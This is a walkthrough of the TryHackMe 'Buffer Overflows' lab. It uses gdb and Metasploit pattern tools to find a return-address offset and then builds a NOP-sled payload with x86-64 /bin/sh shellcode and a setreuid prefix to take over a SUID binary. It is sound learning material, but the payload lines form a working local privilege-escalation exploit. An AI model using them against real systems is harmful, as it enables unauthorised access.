

Buffer Overflow GDB
THM Room : Buffer Overflows
Process Layout
When a program runs on a machine, the computer runs the program as a process. Current computer architecture allows multiple processes to be run concurrently(at the same time by a computer). While these processes may appear to run at the same time, the computer actually switches between the processes very quickly and makes it look like they are running at the same time. Switching between processes is called a context switch. Since each process may need different information to run(e.g. The current instruction to execute), the operating system has to keep track of all the information in a process. The memory in the process is organised sequentially and has the following layout:

• User stack contains the information required to run the program. This information would include the current program counter, saved registers and more information(we will go into detail in the next section). The section after the user stack is unused memory and it is used in case the stack grows(downwards)
• Shared library regions are used to either statically/dynamically link libraries that are used by the program
• The heap increases and decreases dynamically depending on whether a program dynamically assigns memory. Notice there is a section that is unassigned above the heap which is used in the event that the size of the heap increases.
• The program code and data stores the program executable and initialised variables.
Example-1:
THM Buffer Overflows : Task - 7
Using gdb
Commands:
gdb program_name
gdb func-pointer
Then Set the enviroment
set exec-wrapper env -u LINES -u COLUMNS
We then run this set command, which sets gdb to use the environment to use the absolute path of any executables we run: AKA it means any exploit you make inside gdb will work outside of gdb after doing that.
Then run the program
run
Now, to check for addresses of a function use the following:
disassemble function_name
disassemble special
We get the address of our return function here.

We will use the address of first instruction.
0x000000400567 [Since we have 6 bytes : Found by trying known input AAAA....]
In Little endian it will be: x67x50x40x00x00x00 or 675040000000
We convert this (675040) from Hex to ASCII.
Note: Use browser tool as parts of output is hidden in terminal.
https://onlinehextools.com/convert-hex-to-ascii
The result is in picture below as it won't show in this document.
We enter the above ASCII value after 14 charecters to invoke the special function.
Example-2:
THM Buffer Overflows : Task - 8
Using gdb
We have the above configuration. We are logged as user1.
Our objective here is do buffer overflow on the buffer-overflow program and spawn a shell.
As the SUID bit is set to user2, the spawned shell should be able to read the contents of secret.txt
Examining the source code we find that there is a 140 charecters buffer that the program takes as agrument input and spits out the same as output.
In the tryhackme room, we look at the following picture carefully.

{kind=link}
Our objective here is to cross the 140 charecters of the buffer and overflow our data into return address.
Once we are able to manipulate the return address we can point it to anything.(Our shellcode which will be passed as argument)
Note:
It is important to note that, by simplying giving shellcode in the argument will do nothing. As the program will just prinout whatever is passed in the argument. But by changing to return address to the begining of the shell code. It will start execution.
A) Finding out the offset.
This is required to find out at how many charecters will we be overflowing into the Return address.
Note: It is atleast 148 or more. 140 : Charecter Buffer + 8 : rbp
The offset will look like this : buffer(140 bytes) + Alignment bytes (?) + rbp (8 bytes).
2 Methods:
Manual
gdb buffer-overflow
run $(python -c "print('A'*140)")
This will give no error as program expects a maximum of 140 charecters.
Now we will manually try to find the buffer by increamenting the no of As. We finally find it to be 158
run $(python -c "print('A'*158)")
So we know that with 158 bytes we override the 6-bytes-long return address. It means our offset to reach the start of the return address is 158-6 = 152
Thus, return address starts from 152.
offset = buffer(140 bytes) + Alignment bytes (4) + rbp (8 bytes) ----→ From here return address starts.
Metasploit Method
Using metasploit tool we can find the offset.
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 200
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
We feed the output to gdb runner.
run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

We do not get intresting result yet. But next we run the show registry command (i r) in gdb
i r

The highlighted address is the one that is overflown onto RBP now. We will use this to find the offset using another metasploit tool.
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 200 -q 6641396541386541

This tells that RBP starts at 144.
We know that RBP is 8 bytes.
Hence Offset or start of return address is 144+8=152
Conclusion, in both manual and metasploit tool method we find the same offset of 152.
B) Picking a Shell Code:
At this point we need a simple shell code. Exploit-db has 2 simple shell codes
Note; It has to be hexa decimal format so we can pass into the execution.
But all of these will give SIGILL error, even the one recommended in tryhackme room
Thus we use the one in https://www.arsouyes.org/blog/2019/54_Shellcode\
\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05
To find its length use python.
python -c "print(len ('\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05'))"
output: 40
Or Inside Python
>>> len ('\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05')
output: 40
https://l1ge.github.io/tryhackme_bof1/
The above write up explains completely regarding the shell codes. Following is a part.
"We need a shell code that we will put in our buffer and have the return address points to it. For now I just want a simple shell code, just to drop a shell.
There are a few on exploit-db like this one or that one. But I wont make you waste your time like I wasted mine. I've tried most of these simple shell codes and most of them didn't work on our case. I was getting SIGILL errors all the time.
I later found out why: These short shell codes don't have an exit function call at their end, it means that once I injected these shell codes in the buffer and mess up the memory, the binary was still trying to execute these messed up instructions and thus, was reporting "illegal instruction error".
Side note : I was able to get a shell with these simple shell codes but only by using another method : an env variable. With this method you don't put your shell code in the buffer but in an environment variable and then you give the return address the address of that variable. That way you don't mess up the memory and I didn't get any error.
So bellow is a similar simple shell code that i found but it includes an exit call at the end that will prevent the SIGILL errors."
Note, this write up uses the same shell code as the one got from above link. (The link has complete assembly code for the shellcode for further research)
C) Finding the address of the shellcode.
Once we input the shellcode as user input argument, we need to know the starting point of shellcode to modify the return address to this value, such that it will start executing our shellcode once program runs.
We form our payload as follows.
Note: Instead of ‘A’ we can use ‘NOP’s
NOP tells the system to do no operation and RIP moves to the next address.
NOP can be denoted by \x90
Why NOP is better that random data?
If we use random data or ‘A’ for the matter, we need to point our return address to the exact starting of our shellcode, else the program will throw error..
But with NOP in place, we can point our return address to any memory before our shellcode as long as its filled with NOPs.
I will explain with practical below.
Using ‘A’
run $(python -c "print('A'*80 + shellcode + ‘A’*32 + ‘B’*6)
Total length: 80+40+32=152 and 6 bytes return address
Note: The 80 and 32 division can be done anyway.(say 90 - 22).
Keeping some bytes after the shellcode if useful if we try to make changes and the shellcode expands. In such case we need not to determine the address of shellcode again as the begining will still be the same.
run $(python -c "print('A'*80 + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'A'*32 + 'B'*6)")
Also, the last part BBBBBB is used as data because, that is the return address area, once we find the beginning of the shell code, we will replace it at the BBBBBB place.
Using ‘NOP’
run $(python -c "print('\x90'*80 + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x90'*32 + 'B'*6)")
The highlighted 424242424242 indicates the BBBBBB we has used. So the offset is correct.
Now, to find the starting point we will view the memory using the following command.
We will now examine the dump of the hex code with the command x/100x $rsp-200 which dumps 100*4 bytes from memory location $rsp -200 bytes.
x/100x $rsp-200
Using A (Indicated by 414141....)
we need to point to the exact starting point of shell code. The same is highlighted.
Each segment is 4 bytes
Our Shellcode starts at 3rd segment.
Our shellcode is at Line: 0x7fffffffe298 + We need to add 8 bytes to reach 3rd segment.
Thus start of our shell code is 0x7fffffffe298 + 0x8 (Note: Only hexadecimal addition .ie if 12 = C)
The hexdecimal rules have to followed during the addition 9,A,B,C,D,E,F
This can be easily done by the following script.
BASE=0x7fffffffe298
OFFSET=0x8
NEW_BASE=$(( $BASE + $OFFSET ))
NEW_BASE=`printf "0x%X\n" $NEW_BASE`
echo $NEW_BASE
Or
Using simple shell one liner
printf "0x%X\n" $((0x7fffffffe298 + 0x8))
Or
Using simple shell one liner that does the addition in python
printf "0x%X\n" $(python -c "print(0x7fffffffe298 + 0x8)")
We find the result(Our return address) to be : 0x7FFFFFFFE2A0
Using NOP (Indicated by 909090....)

Note: We get exactly similar memory view.
The shellcode starts at line: 0x7fffffffe298 and at the 3rd segment.
But in this case as the memory is preceeded with NOPs, we can take any line (It should be before or having the shellcode)

Thus, the result(Our return address) can be : 0x7fffffffe258
0x7fffffffe268
0x7fffffffe278
0x7fffffffe288
0x7fffffffe298
Therefore we use NOPs to reduce error chances.
D) First Execution.
Now that we have the return address.
We will use the exact one : 0x7FFFFFFFE2A0 and also use NOPs just to be extra secure.
Return Address In Little Endian: \xa0\xe2\xff\xff\xff\x7f
Our Payload will be as follows: (Replace the BBBBBB with little endian format of return address)
python -c "print('\x90'*80 + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x90'*32 + '\xa0\xe2\xff\xff\xff\x7f')"
Note: Let's run it outside gdb to be sure we're in the good environment.
./buffer-overflow $(python -c "print('\x90'*80 + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x90'*32 + '\xa0\xe2\xff\xff\xff\x7f')")
Thus, we landed in a shell, however the shell didn't change to user2 as set by SETUID in the program.
We are still user1 and cannot access the secret.txt file.
E) About Setuid, Setreuid
Again a good explanation is present at https://l1ge.github.io/tryhackme_bof1/
Summary:
For security reasons, the setuid bit is given only when it's necessary
When you drop the shell, /bin/sh looks at your real UID and not your effective UID. You can do research about the difference between real and effective UID but mostly, the funtion setuid(), except if its called on root, only sets your effective UID. So even if we call setuid(1002), our real UID would still be 1001 and thus we'll remain user1 in the shell. We need to use another function: setreuid()
setreuid() can set both your real and effective uid. So we need to modify our shell code to execute setreuid(1002,1002) before it executes /bin/sh.
Side note: Most of the time in these exploits, we want to become root and we target binaries who have the setuid-root bit. In that case, simply doing setuid(0) would work because when called on root, setuid(0) also sets you real UID to root.
F) Modifying the shellcode and exploiting
Depending on your knowledge in assembly and in C, there are different ways to approach it:
- You can write your shellcode in C, compile it, look at the assembly code, remove the bad characters and use it in your exploit.
- You can go straight to assembly, find an existing shell code that uses setreuid() and modify it.
- The easiest option : you can use pwntools
Note: https://defuse.ca/online-x86-assembler.htm Online Assembly to Hex and Viceversa
We will use the pwntools for demo.
pwn shellcraft -f d amd64.linux.setreuid 1002
\x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05

This part will be added to the beginning of our shellcode, for the program to change the effective UID.
New Modified Payload.
python -c "print('\x90'*80 + '\x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05' + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x90'*18 + '\xa0\xe2\xff\xff\xff\x7f')"
Note: We also had to adjust our length keeping in mind the offset.
We added 14 bytes, so we are removing 14 NOPs from the end. Thus keeping our shellcode starting address same.
Now, we run this
./buffer-overflow $(python -c "print('\x90'*80 + '\x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05' + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x90'*18 + '\xa0\xe2\xff\xff\xff\x7f')")
Thus, our modification worked. We are now user2. We can read the contents of secret.txt and finish the task.